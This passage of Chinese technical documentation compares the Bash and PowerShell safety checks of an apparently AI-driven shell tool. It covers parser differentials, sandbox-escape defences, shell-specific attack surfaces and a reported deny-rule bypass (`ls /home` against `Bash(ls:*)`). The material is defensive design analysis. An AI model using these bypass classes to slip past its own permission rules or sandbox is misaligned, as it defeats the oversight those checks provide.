Sources: [dangerousPatterns.ts](utils/permissions/dangerousPatterns.ts#L14-L81), [modeValidation.ts](tools/BashTool/modeValidation.ts#L7-L56), [destructiveCommandWarning.ts](tools/BashTool/destructiveCommandWarning.ts#L1-L103), [sedEditParser.ts](tools/BashTool/sedEditParser.ts#L36-L58)

## Bash 与 PowerShell 安全实现对比

两个 Shell 工具的安全体系同构但实现策略分化，下表总结核心差异：

| 维度 | BashTool | PowerShellTool |
|---|---|---|
| 解析基础 | tree-sitter AST + legacy shell-quote 双轨 | PowerShell 原生解析器单轨 |
| 解析失败策略 | legacy 正则兜底，malformed 语法单独 ask | 直接 ask（无兜底） |
| 危险检测入口 | `bashCommandIsSafe_DEPRECATED`（23 项检查） | `powershellCommandIsSafe`（23 项验证器） |
| 只读判定 | `checkReadOnlyConstraints`（声明式白名单 + 正则） | `isReadOnlyCommand`（cmdlet 白名单 + 安全旗标） |
| cd 复合封堵 | cd+git 专项（`compoundCommandHasCd` 线程化传递） | cd+任意命令泛化（发现 #27） |
| 沙箱逃逸防御 | git 裸仓库/内部路径写入/竞态五重封堵 | cwd 变更复合泛化封堵 |
| 特有攻击面 | zsh 模块/`=` 展开/IFS/花括号展开 | 别名劫持/WMI 生成/COM/编码命令/替代连字符 |
| 观察迁移 | shadow 模式遥测分歧率 | 无（AST 原生即权威） |

Sources: [bashSecurity.ts](tools/BashTool/bashSecurity.ts#L2257-L2413), [powershellSecurity.ts](tools/PowerShellTool/powershellSecurity.ts#L1031-L1091), [readOnlyValidation.ts](tools/BashTool/readOnlyValidation.ts#L1876-L1990), [readOnlyValidation.ts](tools/PowerShellTool/readOnlyValidation.ts#L1209-L1234)

## 设计原则总结

贯穿本模块的工程决策可归纳为四条可迁移的原则。**第一，fail-closed 与 deny 优先**：无法解析即 ask，too-complex 先查显式 deny 规则再降级（deny 不因结构复杂而弱化为 ask），显式规则始终先于启发式路径检查（修复 HackerOne 报告的 `ls /home` 绕过 `Bash(ls:*)` deny 的排序缺陷）。**第二，解析器差分是一等攻击面**：从 `$` token 全局拒绝到 CR 换行差分、从 tilde 变体 TOCTOU 到 shell-quote 单引号反斜杠缺陷，大量代码防御的不是恶意命令本身，而是"校验器看到的命令 ≠ shell 执行的命令"这一元问题。**第三，注释即威胁模型**：`xargs -i` 的 GNU getopt 语义分析、`tree -R` 的 man 页溯源、`>` 尾部断言的前缀剥离推演——每个精巧实现都附带完整的攻击链记录，使防御的必要性可审计。**第四，纵深冗余但明确主防线**：沙箱排除命令被显式标注"非安全边界"、`zf_*` 内建在 zmodload 已被拦截的情况下仍列入黑名单、花括号展开在 flag 解析与 bashSecurity 双重拦截——冗余不是浪费，而是对任何单点失效的保险。

Sources: [bashPermissions.ts](tools/BashTool/bashPermissions.ts#L1072-L1122), [bashSecurity.ts](tools/BashTool/bashSecurity.ts#L43-L74), [shouldUseSandbox.ts](tools/BashTool/shouldUseSandbox.ts#L18-L20)

---

**延伸阅读**：本文聚焦命令内容的静态分析；权限模式切换、规则解析语法与 Bash 分类器的动态判定请参阅 [权限模型：模式切换、规则解析、Bash 分类器与自动模式](19-quan-xian-mo-xing-mo-shi-qie-huan-gui-ze-jie-xi-bash-fen-lei-qi-yu-zi-dong-mo-shi)；shell 命令的解析器底层（ParsedCommand、tree-sitter 集成、heredoc 处理）与执行提供层请参阅 [Shell 工具深度解析：Bash/PowerShell 执行、命令解析与 AST 分析](13-shell-gong-ju-shen-du-jie-xi-bash-powershell-zhi-xing-ming-ling-jie-xi-yu-ast-fen-xi)。